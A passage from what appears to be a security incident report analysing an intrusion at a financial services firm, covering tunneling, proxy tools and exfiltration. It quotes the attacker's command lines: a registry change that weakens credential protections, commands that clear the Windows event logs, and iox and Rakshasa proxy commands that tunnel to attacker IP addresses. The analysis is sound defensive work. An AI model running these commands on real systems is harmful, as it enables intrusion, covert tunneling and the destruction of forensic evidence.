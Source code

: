 ```
cmd.exe /Q /c REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" \ 
/v DisableRestrictedAdmin /t REG_DWORD /d 00000000 \ 
/f 1> \\127.0.0.1\C$\Windows\Temp\RExePi 2>&1
```

In addition to these changes, the attacker also wiped the Windows event logs for System and Security notifications using the Windows Event Utility, `wevtutil.exe`:

```
cmd.exe /Q /c wevtutil.exe cl System 1> \ 
\\127.0.0.1\C$\Windows\Temp\ksASGt 2>&1

cmd.exe /Q /c wevtutil.exe cl Security 1> \ 
\\127.0.0.1\C$\Windows\Temp\uhxJiw 2>&1
```

### Tunneling/Proxy Tools

After a day of initial access, the adversary generated several shellcode injection alerts using `AppLaunch.exe` (a binary that manages and executes applications built with Microsoft's .NET Framework) and outputting the results to a file called `1.txt`. The command line argument associated with this alert is as follows: `c:\programdata\AppLaunch.exe proxy -r 206.237.0[.]49:12355 >> 1.txt`

After examining the injected code, we identified the shellcode as a Golang binary known as `iox`, which can be compiled from the following publicly available [repository](https://github.com/EddieIvan01/iox). This tool is designed for port forwarding and proxying with additional features such as traffic encryption. Based on the observed command line, the attacker established a proxy connection to `206.237.0[.]49` on port `12355`.

Intended or not, the proxy utility was launched by several different legitimate processes: `lsass.exe`, `vmtoolsd.exe`, and `mctray.exe`. In this case, the threat actor side-loaded a common malicious unsigned DLL (`mscoree.dll`) located in the `C:\programdata\` directory.

![Malicious DLL side-loading of mscoree.dll](/assets/images/unmasking-financial-services-intrusion-ref0657/image5.png "Malicious DLL side-loading of mscoree.dll")


The actor employed another proxy known as [Rakshasa](https://github.com/Mob2003/rakshasa), downloaded directly from the tool's official GitHub page using the `certutil` command. It was stored in `c:\users\public\downloads\ra.exe`, and then executed with the following command:
`C:\Windows\system32\cmd.exe /C C:\Users\Public\Downloads\ra.exe -d 149.104.23[.]176:80`.

This command creates a proxy tunnel to the threat actor infrastructure, connecting to the IP address `149.104.23.176` on port `80`. If that wasn’t enough, the actor started to send and retrieve data from the network through ICMP tunneling. For example, when the actor executed the tasklist command, the output was saved to `C:\programdata\re.txt`, and exfiltrated through ICMP using PowerShell.

![ICMP tunneling script using PowerShell](/assets/images/unmasking-financial-services-intrusion-ref0657/image8.png "ICMP tunneling script using PowerShell")


### Exfiltration

One of the more noteworthy parts of this intrusion was centered around the adversary downloading [MEGA Cmd](https://mega.io/cmd), a command-line utility that works with the Mega file hosting service. While still leveraging MSSQL, they downloaded this program, renaming it to `ms_edge.exe`.
